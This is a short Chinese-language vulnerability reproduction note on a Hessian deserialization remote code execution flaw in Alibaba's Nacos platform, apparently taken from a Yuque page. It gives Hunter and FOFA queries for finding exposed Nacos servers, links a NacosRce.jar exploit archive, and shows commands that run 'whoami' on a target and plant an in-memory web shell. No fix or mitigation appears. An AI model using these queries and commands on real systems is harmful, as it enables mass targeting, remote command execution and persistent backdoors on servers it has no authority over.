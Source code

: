 # Nacos存在 Hessian反序列化漏洞

# <font style="color:rgb(51, 51, 51);">一、漏洞简介</font>
<font style="color:rgb(63, 63, 63);">Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。Nacos存在 Hessian反序列化漏洞</font>

# <font style="color:rgb(51, 51, 51);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">Nacos </font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="Nacos"`
+ fofa `icon_hash="13942501"`
+ 特征

![1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937.png](./img/978s9GPtdTqLqp3h/1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937-011081.png)

# 四、漏洞复现
[NacosRce_jar.zip](https://www.yuque.com/attachments/yuque/0/2024/zip/29512878/1730102385394-3297bb1d-0432-46be-b3dd-d879623eb40a.zip)

执行命令

```plain
java -jar NacosRce.jar http://127.0.0.1:8848/nacos 7848 "whoami"
```

![1728962458168-988ba965-1598-420c-ba8b-0f2eae91f733.png](./img/978s9GPtdTqLqp3h/1728962458168-988ba965-1598-420c-ba8b-0f2eae91f733-214348.png)

打入内存马

```plain
java -jar NacosRce.jar http://127.0.0.1:8848/nacos 7848 memshell
```





> 更新: 2024-10-28 15:59:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ziymxgvn5011of96>